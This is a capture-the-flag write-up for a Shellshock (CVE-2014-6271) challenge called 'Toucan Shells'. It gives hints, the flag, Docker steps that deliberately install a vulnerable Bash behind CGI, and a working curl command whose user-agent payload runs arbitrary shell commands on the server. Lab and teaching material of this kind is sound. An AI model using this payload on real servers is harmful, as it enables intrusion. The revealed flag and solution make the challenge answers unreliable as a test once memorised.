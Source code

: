 # Toucan Shells
**Exploitation - Hard**

Wyatt Tauber

## Challenge

**Do not deface the website. Do not make changes to the website. Operations are logged. This site will be reset frequently.**

I like toucans. Do you like toucans? Toucans are not turtles but they might still be vulnerable. Can you find the toucan in this server?

### Hint 1
While this is a website, the vulnerability doesn't lie in a web technology.

### Hint 2
Exporting a variable ad hoc

Escalates permissions to unblock

Persistence or crash

All linked to your bash

With the brackets and colons of __________.

### Hint 3
Shellshock is easier to exploit with `curl` than a web browser. Set `() { :; }; echo; echo; /bin/bash` as your user agent and try running some commands. You'll have to look around a bit, but not outside the HTTP server's folder.

### Flag
`CHAD{t0uc4n_pl4y_th4t_g4m3}`

## Exploit Overview
<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/4/44/Shellshock-bug.png/1024px-Shellshock-bug.png" alt="Shellshock Logo" width="100"/>

**[Shellshock (CVE-2014-6271)](https://www.exploit-db.com/exploits/34765)**

Shellshock is a group of security bugs in Unix’s default Bash (Bourne-Again) shell which allow for a user to run arbitrary code on vulnerable devices that they can connect to. These vulnerabilities were discovered between September 12th and September 24th, 2014 with patches being co-developed by vulnerability researchers and the Bash maintainers prior to disclosure.  The initial discovery showed that Bash would unintentionally execute commands when they were concatenated to the end of function definitions stored in the values of environment variables. There were many ways that the bug could be leveraged, including via the internet through unpatched web servers, SSH servers, DHCP clients, and mail servers. Attackers began exploiting Shellshock within hours of disclosure, attacking various entities such as Akamai, Yahoo!, and the United States Department of Defense.

## Implementation Details

### Docker-Compose:
```
version: '3'

services:

  server:
    image: wwt92829/csec-472-project
    container_name: server
    ports:
      - "80:80"
```
1. Download a vulnerable version of Bash (this image uses 4.2) from [GNU's website](http://ftpmirror.gnu.org/bash/).
2. Create a web server (this image uses Apache httpd) and enable support for CGI. In httpd.conf:
    - Uncomment  `LoadModule cgid_module modules/mod_cgid.so` and `LoadModule cgi_module modules/mod_cgi.so`
    - Uncomment `ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"`
3. Create and frame a shell script with `Content-type: text/html` in an HTML file. The shell script should be stored in the cgi-bin directory specified in httpd.conf.
4. Build a Dockerfile from the [httpd](https://hub.docker.com/_/httpd) Docker image.
    - Update the package lists and install dependencies
    - Downgrade Bash by installing the old version with dpkg
    - Copy httpd.conf to the apache2/conf directory
    - Copy the HTML file with the framed shell script to the htdocs or /var/www/html directory
    - Set the shell script as executable using chmod and place it in the cgi-bin directory
5. Create a Docker-Compose file to build the container and expose the desired port on the host to the container's port 80.

### Run exploit:
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c '<command>'" http://localhost/cgi-bin/toucan
```
Set `localhost` to the IP address or hostname of the server to run the exploit on. The Shellshock exploit is invoked by changing the user agent to include a variant of `() { :; };` and replacing `<command>` with any command that will now be executed as the daemon user.

Check the htdocs folder for the flag. It is at http://localhost/T0UC4N.jpg
